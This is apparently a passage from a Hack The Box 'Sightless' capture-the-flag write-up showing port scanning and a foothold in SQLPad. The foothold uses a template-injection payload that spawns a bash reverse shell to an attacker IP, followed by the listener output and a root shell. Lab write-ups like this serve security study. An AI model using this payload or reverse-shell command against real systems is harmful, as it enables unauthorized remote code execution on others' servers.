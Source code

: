 We found 3 open ports, 21 is FTP, 22 is SSH and 80 is an apache web server.

### Web

The nmap script reveals the `sightless.htb` domain, let's add that to `/etc/hosts` file and navigate to the website.

![webiste](1.png)

Scrolling down we come across the services section, we see that `SQLPad` is going to `sqlpad.sightless.htb` domain, let's add that to `/etc/hosts`.

![sqpad](2.png)

Searching on google for possible exploits we come across this bug bounty [report](https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb)

## **Foothold**

To get a shell we follow the following steps.

- Navigate to `http://sqlpad.sightless.htb`
- Click on Connections->Add connection
- Choose MySQL as the driver
- Input the following payload into the Database form field

```js
{{ process.mainModule.require('child_process').exec('/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.20/9001 0>&1"') }}
```

We setup a listener and click `Test` button.

![shell](3.png)

```terminal
[★]$ nc -lvnp 9001                                                                         
listening on [any] 9001 ...                                                      
connect to [10.10.16.20] from (UNKNOWN) [10.10.11.32] 57094                                    
bash: cannot set terminal process group (1): Inappropriate ioctl for device                    
bash: no job control in this shell                                                             
root@c184118df0a6:/var/lib/sqlpad# script -qc /bin/bash /dev/null                              
script -qc /bin/bash /dev/null                                                   
root@c184118df0a6:/var/lib/sqlpad# export TERM=xterm                                           
export TERM=xterm                                                                              
root@c184118df0a6:/var/lib/sqlpad# ^Z                                                          
zsh: suspended  nc -lvnp 9001

┌──[10.10.16.20]─[sirius💀parrot]-[~/ctf/htb/sighless]
└──╼[★]$ stty raw -echo;fg                   
[1]  + continued  nc -lvnp 9001

root@c184118df0a6:/var/lib/sqlpad# id
uid=0(root) gid=0(root) groups=0(root)
```
